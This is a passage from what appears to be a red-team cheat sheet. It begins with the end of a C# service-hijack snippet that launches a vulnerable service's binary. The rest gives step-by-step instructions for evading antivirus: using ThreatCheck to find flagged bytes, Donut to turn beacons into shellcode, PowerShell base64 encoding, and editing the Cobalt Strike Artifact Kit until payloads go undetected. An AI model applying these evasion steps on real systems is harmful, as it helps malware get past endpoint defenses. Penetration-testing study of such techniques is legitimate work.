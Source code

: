             proc.Start();
            proc.WaitForExit();
            
            // optional to add second command or run original binary
            psi.FileName = "cmd.exe";
            psi.Arguments = "/C C:\\<PATH TO VULN SERVICE>";
            proc.StartInfo = psi;
            proc.Start();
            proc.WaitForExit();
            }
        }
    }
    ```
- 2\. Compile script\.cs on your local Windows machine: `csc.exe script.cs`



---
### __Windows payload obfuscation considerations & encoding options:__
##### _Identify bad code in artifacts and scipts:_
ThreatCheck attempts to find the end of the "bad bytes" and produces a hex dump up from that point\. This can be helpful when trying to identify the specific bad pieces of code in a tool/payload\. 
- Check for bad code \(show as the content closest to the end of the output\): 
	- Artifact \(\.exe | \.dll\) \(real\-time protection can be disabled\) \([ThreatCheck](https://github.com/rasta-mouse/ThreatCheck)\): `ThreatCheck.exe -f <beacon.exe>`
	- Script \(\.ps1\) \(real\-time protection must be enabled\) \(Threatcheck\): `ThreatCheck.exe -f <script.ps1> -e AMSI`

##### _Obfuscate \.NET binary:_
- 1\. Generate a default \.NET based \.exe beacon/grunt/etc provided by your C2 framework
- 2\. Create obfuscated shellcode \(use \-f 2 to also base64 encode\) \([Donut](https://github.com/TheWover/donut)\): `donut.exe (-f 2) <payload.exe>`

##### _PowerShell encoding:_
- PowerShell encoding commands:
	- Windows: `$str = '<command>'; [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))`
	- Linux: `str='<command>' & echo -en $str | iconv -t UTF-16LE | base64 -w 0`
	- CyberChef: use the options 'decode text' \(UTF\-16LE\) \+ 'To Base64'
- Convert \.exe or \.bin to base64 string: `"C:\<path\to>\loader.bin"; [Convert]::ToBase64String([IO.File]::ReadAllBytes($f)) |Out-File enocded.b64`

##### _Cobalt Strike Artifact Kit modification:_
The "artifact\-kit" modifies the compiled cobalt strike artifacts like \.EXE's and \.DLL's\. 
>This obfuscation applies to the “jump psexec\(64\)” command and all stageless generated executables\.  
- 1\. Generate a “Windows Service EXE \(S\)” \(doesn’t matter if the listener is SMB or TCP\) 
- 2\. Run ThreatCheck against a 'beacon\-svc\.exe' binary
- 3\. Search where the returned bad code \(word/value/string\) appears in the kit \(/opt/cobaltstrike/artifact\-kit\) and change the value to something new \(simple find & replace\): `grep -r <value>`
- 4\. Build these changes \(/opt/cobaltstrike/artifact\-kit\): `./build.sh`
- 5\. Copy the whole directory \(dist\-pipe\) containing the new artifact files \(e\.g\. artifact\.cna\) to your CS client system in the “colbaltstrike\\ArtifactKit\\dist\-pipe” folder\. 
- 6\. Make sure the Aggressor script \(artifact\.cna\) is \(re\)loaded in the client to use the modified artifact\.
- 7\. Test again with ThreatCheck and repeat until no more threads are detected\.
